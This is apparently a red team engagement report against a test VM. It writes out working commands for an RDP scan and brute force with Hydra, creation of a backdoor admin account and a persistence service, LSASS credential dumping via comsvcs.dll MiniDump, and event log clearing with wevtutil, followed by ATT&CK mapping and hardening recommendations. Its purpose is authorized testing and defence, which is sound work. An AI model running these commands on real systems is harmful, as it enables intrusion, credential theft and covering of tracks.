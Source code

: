 # Red Team Engagement 
***Referencing NIST 800-115***  

> **Disclaimer**: The following documentation highlights malicious tactics and techniques used **exclusively** for **authorized Red Team** or penetration-testing exercises in alignment with **NIST SP 800-115** (Technical Guide to Information Security Testing and Assessment). Any real-world, unauthorized execution of these steps is **illegal** and unethical.

---

## 1. Overview
During this simulated Red Team engagement, the adversary (operating from a **Kali Linux** machine) identified and brute-forced Remote Desktop Protocol (RDP) on **king-vm**, successfully compromising the **Administrator** account. Once inside, the attacker performed system **enumeration**, **credential dumping**, and **log tampering**. The provided screenshots depict:
- Network scanning and service enumeration from Kali  
- Successful brute force attempts against the Administrator account  
- RDP session establishment and subsequent malicious commands on the target

---

## 2. NIST 800-115 Alignment
NIST SP 800-115 outlines four phases for penetration testing:
1. **Planning**: Defining scope and objectives  
2. **Discovery**: Gathering information, identifying vulnerabilities  
3. **Attack**: Exploiting systems and escalating privileges  
4. **Reporting**: Documenting findings, TTPs, and recommendations  

All malicious activities below were part of a **controlled** Red Team test, following these phases.

---

## 3. Reconnaissance & Initial Access (Kali Machine)
### 3.1 Network Scanning
From the **Kali** host, the attacker scanned the target’s IP to discover open ports/services:
`nmap -p 3389 <TARGET_IP>`

- Found **RDP (3389)** open on **king-vm**.

### 3.2 RDP Brute Force
Using a password-guessing tool (**Hydra**) on Kali, the attacker ran repeated login attempts against the **Administrator** account:
`hydra -l Administrator -P /path/to/passwordlist.txt rdp://<TARGET_IP>`
- Eventually gained a **valid** password for the built-in **Administrator** user.  
- This is visible in the screenshots, showing successful brute force output.

### 3.3 Establishing RDP Session
With a **valid password** discovered, the adversary used an RDP client from Kali (or any remote RDP client) to log in:
`rdesktop <TARGET_IP> -u Administrator -p <DiscoveredPassword>`
- Successfully accessed the **king-vm** desktop.  
- The screenshots show the attacker’s remote desktop session from Kali.

---

## 4. Post-Exploitation Activities on king-vm
Once inside, the attacker performed several key actions.

### 4.1 System Enumeration
Commands executed:
```
whoami
hostname
winver
systeminfo
ipconfig /all
arp -a
```

Identified OS version, patch level, network configuration, and local user context (administrator).

### 4.2 Privilege Escalation & Persistence
Administrator Account Modification

```
net user administrator Plokijuhy
Attempt to change Administrator password.
Creating a New Local Admin
```

```
net user EvilAdmin P@ssw0rd /add
net localgroup administrators EvilAdmin /add
```

Gave **EvilAdmin** full administrative privileges.

Malicious Service Creation

```
sc create EvilService
```

Used to register a potentially malicious service in the registry for persistence or lateral movement.

#### Modified registry keys under `HKCU`

### 4.3 Credential Dumping
```
tasklist | findstr lsass
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump 648 C:\lsass.dmp full
```

Dumped LSASS process into `C:\lsass.dmp`, allowing offline credential extraction (NTLM hashes or clear-text passwords if available).

### 4.4 Log Tampering
```
wevtutil el
wevtutil cl "Application"
wevtutil cl "Windows PowerShell"
```

Attempted clearing event logs with wevtutil to cover tracks. Some operations returned “Access is denied”, but the intent was clear.

---

## 5 MITRE ATT&CK Techniques
**T1078 - Valid Accounts:** Gaining admin access via brute force.

**T1003 - Credential Dumping:** Dumped LSASS memory using rundll32 comsvcs.dll, MiniDump.

**T1136 - Create Account:** Created “EvilAdmin” for persistent access.

**T1543 - Create or Modify System Process:** Registered new service EvilService to maintain foothold.

**T1070.001 - Log Deletion:** Attempted to clear event logs via wevtutil.

---

## 6. Findings & Recommendations
Enforce Strong Access Controls

Use MFA for RDP logins.
Enforce lockout policies after multiple failed attempts.
Restrict RDP Exposure

Avoid public-facing RDP; use VPN or a secure jump host.
Segment networks so that RDP is only accessible where necessary.
Credential Protection

Enable LSASS protections (e.g., Credential Guard).
Regularly monitor for MiniDump or suspicious processes.
Enhanced Logging & Alerts

Alert on event log clearing attempts and new service creations.
Monitor for repeated login failures or brute force patterns.
Harden Built-in Admin Accounts

Rename or disable default Administrator if not strictly required.
Implement password rotation and store credentials in a secure vault.

---

### 7. Conclusion
From their Kali attack box, the Red Team scanned, brute-forced, and established RDP access to king-vm using the default Administrator account. Post-compromise, they performed reconnaissance, created new administrator accounts, dumped credentials from LSASS, and attempted to delete Windows event logs. This scenario illustrates how unsecured RDP endpoints can lead to devastating intrusions. Following NIST SP 800-115 guidelines, the organization can implement stricter remote access controls, better monitoring, and robust credential policies to mitigate similar threats in the future.
